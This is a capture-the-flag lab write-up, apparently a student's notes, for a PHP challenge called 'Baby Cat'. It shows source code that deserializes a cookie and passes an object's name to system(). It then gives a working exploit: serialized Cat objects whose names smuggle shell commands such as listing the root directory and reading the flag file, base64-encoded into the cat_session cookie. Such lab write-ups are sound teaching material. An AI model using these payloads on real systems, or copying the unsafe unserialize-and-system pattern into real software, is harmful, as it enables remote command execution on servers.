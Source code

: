 ```yaml
---
title: Simple Web 0x17(Lab - Baby Cat)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x17(Lab - Baby Cat)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8601/

## Background
[0x16.5(php unserialize)](/FkF8p-zrSMSOWFkE4vvAJQ)
## Source code
:::spoiler code
```php=
<?php
isset($_GET['source']) && die(!show_source(__FILE__));

class Cat
{
    public $name = '(guest cat)';
    function __construct($name)
    {
        $this->name = $name;
    }
    function __wakeup()
    {
        echo "<pre>";
        system("cowsay 'Welcome back, $this->name'");
        echo "</pre>";
    }
}

if (!isset($_COOKIE['cat_session'])) {
    $cat = new Cat("cat_" . rand(0, 0xffff));
    setcookie('cat_session', base64_encode(serialize($cat)));
} else {
    $cat = unserialize(base64_decode($_COOKIE['cat_session']));
}
?>
<p>Hello, <?= $cat->name ?>.</p>
<a href="/?source">source code</a>
```
:::
## Exploit - deserialize
1. Use psysh to test payload
In local side, if you haven't install `cowsay`, the payload should be `'||ls -al'`
    ```bash!
    $ ./psysh
    > system("cowsay 'Welcome back, '||pwd''");
    sh: 1: cowsay: not found
    /home/sbk6401
    = "/home/sbk6401"
    ```
2. Construct testing case
    ```bash!
    $ ./psysh
    > class Cat{
    . public $name = '(guest cat)';
    . function __construct($name){$this->name = $name;}
    . function __wakeup(){system("cowsay 'Welcome back, $this->name'");}}
    > $cat = new Cat("'&&ls -al /'")
    = Cat {#2785
        +name: "'&&ls -al /'",
      }

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMjoiJyYmbHMgLWFsIC8nIjt9"
    ```
    Then change`cat_session` to `TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMjoiJyYmbHMgLWFsIC8nIjt9` and we'll get the response
    ![](https://i.imgur.com/oTHtA0U.png)

3. Get flag
    ```bash!
    > $cat = new Cat("'&&cat /flag_5fb2acebf1d0c558'")
    = Cat {#2789
        +name: "'&&cat /flag_5fb2acebf1d0c558'",
      }

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czozMDoiJyYmY2F0IC9mbGFnXzVmYjJhY2ViZjFkMGM1NTgnIjt9"
    ```
    Again! Modify `cat_session` to `TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czozMDoiJyYmY2F0IC9mbGFnXzVmYjJhY2ViZjFkMGM1NTgnIjt9` then we'll get flag
    ![](https://i.imgur.com/y5HHWDZ.png)
